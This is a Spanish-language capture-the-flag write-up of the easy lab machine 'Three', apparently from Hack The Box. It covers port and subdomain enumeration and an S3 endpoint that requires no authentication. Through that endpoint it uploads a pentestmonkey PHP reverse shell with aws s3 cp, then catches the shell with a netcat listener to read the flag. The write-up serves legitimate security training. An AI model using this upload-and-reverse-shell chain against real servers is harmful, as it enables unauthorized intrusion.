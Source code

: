 Maquina: Three

Autor:

Dificultad: Muy Facil

![Screenshot 2024-11-10 183538](https://github.com/user-attachments/assets/723e5af8-477b-4910-9178-04a6c1772101)

Iniciamos la máquina y verificamos la conexión

ping 10.129.65.152 -c 1

![Screenshot 2024-11-10 183802](https://github.com/user-attachments/assets/948ef97f-f391-4d7d-88ef-34d5d15103c5)

realizamos un escaneo de puertos y servicios

nmap -p- --min-rate 5000 -sV 10.129.65.152

el puerto 22 perteneciente al servicio SSH y el puerto 80 perteneciente al servicio HTTP están abiertos

![Screenshot 2024-11-10 183919](https://github.com/user-attachments/assets/cccca470-bbba-46bd-adcf-59f7489800ba)

vamos a la web y encontramos una dirección de correo electrónico que aparece en la sección de contacto: mail@thetoppers.htb

![Screenshot 2024-11-10 183948](https://github.com/user-attachments/assets/1400ba6a-c890-4f86-93db-5b9df8d84d96)

![Screenshot 2024-11-10 184023](https://github.com/user-attachments/assets/d54a6803-ce9f-4111-a4be-367c7801caf6)

añadimos la ip a /etc/hosts

echo 10.129.65.152 thetoppers.htb | sudo tee -a /etc/hosts

![Screenshot 2024-11-10 184239](https://github.com/user-attachments/assets/2cc97e10-0183-4f57-8b4e-0c27040728fd)

identificamos subdominios con Gobuster

gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain

![Screenshot 2024-11-10 184733](https://github.com/user-attachments/assets/e48ceb6c-7d0c-4cb0-bfad-55ab517dabbd)

añadimos la dirección del subdominio s3.thetoppers.htb al archivo /etc/hosts

![Screenshot 2024-11-10 185041](https://github.com/user-attachments/assets/1679ffdb-7560-4761-a7f2-7c3559680a5d)

echo 10.129.65.152 s3.thetoppers.htb | sudo tee -a /etc/hosts

vamos a la web

![Screenshot 2024-11-10 185051](https://github.com/user-attachments/assets/56135bcf-3d04-4c6d-8f82-b7132a3103cd)

el servicio se refiere a Amazon Simple Storage Service (Amazon S3)
Este servicio puede usarse para guardar diversos tipos de información, 
como copias de seguridad, archivos multimedia, páginas web estáticas, entre otros.

Lo instalamos y lo configuramos
sudo apt install awscli
aws configure

![Screenshot 2024-11-10 185345](https://github.com/user-attachments/assets/9fc58951-8855-4757-a247-942a6d4d955e)

![Screenshot 2024-11-10 185622](https://github.com/user-attachments/assets/8729ed6c-509d-4e4b-847c-4ca8c24ccf0c)

Esto nos muestra dos elementos de interés y una carpeta llamada "images". Además, 
disponemos de un servicio que nos permite descargar estos archivos de forma remota a nuestro entorno.

aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb

![Screenshot 2024-11-10 185650](https://github.com/user-attachments/assets/dad4e118-a322-471f-a4e9-f90231ac9d43)

Si no hay una configuración que exija autorización para subir archivos, podemos intentar cargar una Reverse Shell. 
Sabemos que el servidor está ejecutando archivos con extensión PHP, por lo que ya sabemos cómo generar una. 
Para este propósito, suelo recurrir a la Reverse Shell en PHP disponible en pentestmonkey. 
Puedes encontrar el script aquí: 

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

copiamos el payload en un file y cambiamos IP y puerto.

![Screenshot 2024-11-10 190554](https://github.com/user-attachments/assets/7c81e59a-50c9-42ae-942e-405b654f985a)

![Screenshot 2024-11-10 190607](https://github.com/user-attachments/assets/85f36252-4324-452c-a2f9-ab84623bc654)

Luego, utilizamos el siguiente comando para subir un archivo desde nuestro sistema local al servicio remoto.

aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb

![Screenshot 2024-11-10 190934](https://github.com/user-attachments/assets/9a8981c6-2593-455d-aa45-7f9be699b2f9)

si accedemos a ese archivo mientras tenemos Netcat escuchando en el puerto especificado (443), deberíamos obtener una shell.

nc -nlvp 443

![Screenshot 2024-11-10 192106](https://github.com/user-attachments/assets/314431cf-41eb-4782-9190-ec0491abbd6f)

Luego, accedemos a http://thetoppers.htb/shell.php.4

![Screenshot 2024-11-10 191410](https://github.com/user-attachments/assets/d7130117-25c3-40a2-b92a-c56ac2498fed)

Encontrados el flag en /var/www/flag.txt

![Screenshot 2024-11-10 191420](https://github.com/user-attachments/assets/4936b202-8280-42ac-9e6c-7e36030eba59)

![Screenshot 2024-11-10 191542](https://github.com/user-attachments/assets/60e2a943-dd0c-401f-b1cb-bfe0afd6f355)
